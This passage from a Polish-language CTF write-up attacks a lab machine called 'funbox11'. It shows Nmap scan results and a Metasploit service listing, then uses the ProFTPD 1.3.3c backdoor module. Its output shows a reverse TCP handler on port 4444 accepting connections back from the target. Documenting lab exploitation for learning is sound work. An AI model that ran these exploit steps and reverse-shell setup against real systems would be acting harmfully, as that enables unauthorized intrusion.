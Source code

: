 ```console
[*] Nmap: |   2.02:
[*] Nmap: |_    Message signing enabled but not required
[*] Nmap: | smb2-time:
[*] Nmap: |   date: 2021-09-02T17:55:47
[*] Nmap: |_  start_date: N/A
[*] Nmap: TRACEROUTE
[*] Nmap: HOP RTT     ADDRESS
[*] Nmap: 1   0.37 ms funbox11 (172.16.1.208)
[*] Nmap: OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
[*] Nmap: Nmap done: 1 IP address (1 host up) scanned in 16.03 seconds
msf6 exploit(multi/script/web_delivery) > services
Services
========

host          port  proto  name         state  info
----          ----  -----  ----         -----  ----
172.16.1.208  21    tcp    ftp          open   ProFTPD 1.3.3c
172.16.1.208  22    tcp    ssh          open   OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 Ubuntu Linux; protocol 2.0
172.16.1.208  25    tcp    smtp         open   Postfix smtpd
172.16.1.208  80    tcp    http         open   Apache httpd 2.4.18 (Ubuntu)
172.16.1.208  110   tcp    pop3         open   Dovecot pop3d
172.16.1.208  139   tcp    netbios-ssn  open   Samba smbd 3.X - 4.X workgroup: WORKGROUP
172.16.1.208  143   tcp    imap         open   Dovecot imapd
172.16.1.208  445   tcp    netbios-ssn  open   Samba smbd 4.3.11-Ubuntu workgroup: WORKGROUP

msf6 exploit(multi/script/web_delivery) >
```
</div>
W usługach widzimy na początku **ProFTPD 1.3.3c**. Sprawdźmy, czy coś na niego mamy? :smiley:
{: .text-justify}
```console
msf6 exploit(multi/script/web_delivery) > search ProFTPD 1.3.3c

Matching Modules
================

   #  Name                                    Disclosure Date  Rank       Check  Description
   -  ----                                    ---------------  ----       -----  -----------
   0  exploit/unix/ftp/proftpd_133c_backdoor  2010-12-02       excellent  No     ProFTPD-1.3.3c Backdoor Command Execution


Interact with a module by name or index. For example info 0, use 0 or use exploit/unix/ftp/proftpd_133c_backdoor
```
Jak widać, jest **backdoor**.
<div class="notice--primary" markdown="1">
```console
use unix/ftp/proftpd_133c_backdoor
set rhosts 172.16.1.208
set lhost eth0
```
```console
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > run -j
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.

[*] Started reverse TCP double handler on 172.16.1.10:4444
msf6 exploit(unix/ftp/proftpd_133c_backdoor) > [*] 172.16.1.208:21 - Sending Backdoor Command
[*] Accepted the first client connection...
[*] Accepted the second client connection...
[*] Command: echo Wt94AwoZmyiN1F7w;
```